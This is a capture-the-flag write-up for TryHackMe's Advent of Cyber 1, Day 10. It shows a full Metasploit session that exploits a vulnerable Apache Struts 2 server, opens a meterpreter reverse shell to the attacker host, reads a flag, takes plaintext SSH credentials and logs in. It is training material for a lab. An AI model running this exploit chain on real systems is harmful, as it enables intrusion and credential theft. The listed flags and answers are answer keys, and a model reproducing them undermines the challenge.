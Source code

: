 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 10
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
* Spring, B. (2019, December 9). Metasploit: Basics. TryHackMe Blog. https://blog.tryhackme.com/metasploit/
## Compromise the web server using Metasploit. What is flag1?
* According to the [blog post](https://blog.tryhackme.com/metasploit/):
> The Christmas challenge will include a web server that is running a vulnerable version of Apache Struts 2 (an open-source web application framework for Java applications).
* The [blog post](https://blog.tryhackme.com/metasploit/) uses `exploit/multi/http/struts2_content_type_ognl`:
![`exploit/multi/http/struts2_content_type_ognl`](https://blog.tryhackme.com/content/images/2019/12/Screenshot-from-2019-12-09-20-48-19.png)

```bash
$ msfconsole -q
msf6 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution

msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.194.217
RHOSTS => 10.10.194.217
msf6 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST tun0
LHOST => 10.4.32.172
msf6 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.4.32.172:4444 
[*] Sending stage (980808 bytes) to 10.10.194.217
[*] Meterpreter session 1 opened (10.4.32.172:4444 -> 10.10.194.217:41814) at 2021-06-29 15:52:56 +1000

meterpreter > shell
Process 52 created.
Channel 1 created.
$ find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
$ exit
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

**Flag 1**: `THM{3ad96bb13ec963a5ca4cb99302b37e12}`
## Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-09 08:12:45 +1100  santa

meterpreter > cd santa
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-09 08:12:44 +1100  ssh-creds.txt

meterpreter > cat ssh-creds.txt 
santa:rudolphrednosedreindeer
```

**Answer**: `rudolphrednosedreindeer`
## Who is on line 148 of the naughty list?
```bash
 ssh santa@10.10.194.217
santa@10.10.194.217's password: rudolphrednosedreindeer
[santa@ip-10-10-194-217 ~]$ sed '148!d' naughty_list.txt 
Melisa Vanhoose
```
**Answer**: `Melisa Vanhoose`
## Who is on line 52 of the nice list?
```bash
[santa@ip-10-10-194-217 ~]$ sed '52!d' nice_list.txt 
Lindsey Gaffney
```
**Answer**: `Lindsey Gaffney`